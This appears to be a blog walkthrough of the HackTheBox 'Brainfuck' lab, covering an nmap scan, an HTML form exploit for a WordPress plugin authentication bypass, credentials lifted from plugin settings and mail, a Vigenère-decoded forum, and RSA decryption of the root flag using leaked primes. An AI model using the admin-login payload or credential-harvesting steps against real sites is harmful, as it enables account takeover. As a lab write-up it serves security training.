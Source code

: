 ```yaml
---
layout: post
title:  "HackTheBox - Brainfuck"
date:   2021-08-09 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL USER SASL(PLAIN) TOP AUTH-RESP-CODE PIPELINING CAPA RESP-CODES
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: ID more ENABLE listed LOGIN-REFERRALS have AUTH=PLAINA0001 post-login SASL-IR Pre-login capabilities OK IDLE IMAP4rev1 LITERAL+
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Issuer: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-13T11:19:29
| Not valid after:  2027-04-11T11:19:29
| MD5:   cbf1 6899 96aa f7a0 0565 0fc0 9491 7f20
|_SHA-1: f448 e798 a817 5580 879c 8fb8 ef0e 2d3d c656 cb66
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Getting into https://brainfuck.htb/ I see that there is a user called orestis@brainfuck.htb and that the site is also running wordpress and mysql . After googling a bit we come across this exploit:
[41006](https://www.exploit-db.com/exploits/41006)

And we change the exploit to suit our needs so mine looks like this now:
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="orestis@brainfuck.htb">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form> 
```
We run this exploit and in another tab we go to https://brainfuck.htb/wp-admin/admin-ajax.php and we see that we have been logged in as admin.

# FOOTHOLD

On checking we see in plugins that there is a plugin for SMTP . On doing inspect element we find the password for orestis in plaintext. Now we try logging in to port 110 using the credentials:
[pentesting pop3](https://book.hacktricks.xyz/pentesting/pentesting-pop)

From here we can get the credentials for orestis and login to sup3rs3cr3t.brainfuck.htb:
```
Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO
```
There we see some encrypted text in keys which seems to be Vignere Cipher. Trying to decode it we find that the key is "fuckmybrain".
Next we decode the conversation and go to the link provided and download the id_rsa.The id_rsa seems to be encrypted and we can try to ssh into user orestis now.

```
Password for id_rsa: 3poulakia!
```
Now we see the user.txt

# PRIVILEGE ESCALATION

In the directory of the user we see a sage file which seems like RSA:
```s
orestis@brainfuck:~$ cat encrypt.sage
nbits = 1024

password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))

p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
    e = ZZ.random_element(phi)



c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
orestis@brainfuck:~$ cat debug.txt 
7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
orestis@brainfuck:~$ cat output.txt 
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
```

It was basic RSA so we decrypted it without any sweat (they even provided the primes)
```py
Type "help", "copyright", "credits" or "license" for more information.
>>> p=7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
>>> q=7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
>>> e=30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
>>> n=p*q
>>> tot=(p-1)*(q-1)
>>> d=pow(e,-1,tot)
>>> c=44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
>>> m=pow(c,d,n)
>>> bytes.fromhex(hex(m)[2:])
b'6efc1a5dbb8904751ce6566a305bb8ef'
```
And this was the flag. We didn't get to actually become root -_-

